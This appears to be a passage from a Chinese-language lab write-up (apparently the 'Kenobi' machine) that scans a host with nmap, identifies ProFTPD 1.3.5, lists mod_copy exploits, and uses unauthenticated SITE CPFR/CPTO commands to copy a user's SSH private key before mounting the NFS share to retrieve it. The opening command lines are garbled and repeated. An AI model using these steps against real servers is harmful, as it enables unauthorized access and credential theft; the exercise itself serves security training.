 ```nmap -sV -vv --script=vuln TARGET_IP```nmap -sV -vv——script=vuln TARGET_IP ' ' 'nmap -sV -vv——script=vuln TARGET_IP ' ' ' nmap -sV -vv——script=vuln TARGET_IP ' ' '
    /var可看做是一个挂载

+ 之前SMB共享文件下载有ProFtpd信息，而ProFtpd是一个免费的开源FTP服务器，兼容Unix和Windows系统。在过去的软件版本中，它也很容易受到攻击，可以通过ProFtpd获取权限：

    + 获取服务版本：

    ```
    root@ip-10-10-156-25:~# nc 10.10.14.7 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.14.7]
    ```

    + 查找版本漏洞：

    ```
    root@ip-10-10-156-25:~# searchsploit ProFTPD 1.3.5
    ---------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                        |  Path
    ---------------------------------------------------------------------------------------------------------------------- ---------------------------------
    ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                             | linux/remote/37262.rb
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                   | linux/remote/36803.py
    ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                               | linux/remote/49908.py
    ProFTPd 1.3.5 - File Copy                                                                                             | linux/remote/36742.txt
    ---------------------------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results  
    ```

    + ProFTPD 1.3.5的漏洞在mod_copy模块中:

        mod_copy模块实现了SITE CPFR和SITE CPTO命令，可用于将文件/目录从服务器上的一个位置复制到另一个位置。任何未经身份验证的客户机都可以利用这些命令将文件从文件系统的任何部分复制到选定的目的地。

+ FTP服务以Kenobi用户的身份运行(从共享上的文件)，并为该用户生成ssh密钥。可以利用mod_copy的SITE CPFR和SITE CPTO命令复制Kenobi的私钥:

    ```
    root@ip-10-10-156-25:~# nc 10.10.14.7 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.14.7]
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful
    ```

    + 现在已经将Kenobi的私钥移到了/var/tmp目录中,可以将/var/tmp挂载到attack机器上：

    ```
    root@ip-10-10-156-25:~# mkdir /mnt/kenobiNFS
    root@ip-10-10-156-25:~# mount 10.10.14.7:/var /mnt/kenobiNFS
    root@ip-10-10-156-25:~# ls -la /mnt/kenobiNFS
    total 56
    drwxr-xr-x 14 root root  4096 Sep  4  2019 .
    drwxr-xr-x  3 root root  4096 Nov 29 14:14 ..
    drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
    drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
    drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
```